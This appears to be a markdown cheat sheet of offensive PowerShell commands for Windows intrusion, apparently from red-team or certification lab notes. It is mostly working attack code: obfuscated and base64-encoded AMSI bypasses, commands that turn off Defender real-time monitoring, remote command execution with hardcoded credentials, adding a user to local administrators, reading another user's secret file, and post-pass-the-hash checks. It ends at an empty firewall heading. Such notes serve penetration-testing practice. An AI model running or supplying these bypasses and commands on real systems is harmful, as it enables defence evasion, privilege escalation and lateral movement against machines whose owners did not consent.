

# Miscellaneous Notes
---
## Bypass AMSI
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

#Base64
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

#On PowerShell 6
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Bypass Real-Time-monitoring
```powershell
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
powershell set-MpPreference -DisableAutoExclusions $true
```

## Create PowerShell credentials and execute commands
```powershell
$pass = ConvertTo-SecureString "Password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("CORP\john", $pass)

# Enter PSSession
Enter-PSSession -computername ATSSERVER -ConfigurationName dc_manage -credential $cred

# New-PSSession


# Invoke-command for command injection
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -command {whoami}
```

## Adding User to local administrator group
```powershell
net localgroup administrators user /add
```

## Running commands in a specific user context in PowerShell
```powershell
powershell.exe -c "$user='WORKGROUP\John'; $pass='password123'; try { Invoke-Command -ScriptBlock { Get-Content C:\Users\John\Desktop\secret.txt } -ComputerName Server123 -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }" 2>&1
```


## Command to check whoami after pass-the-hash attack
Send whoami query to root dc domain of the forest
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Turn off Windows firewall

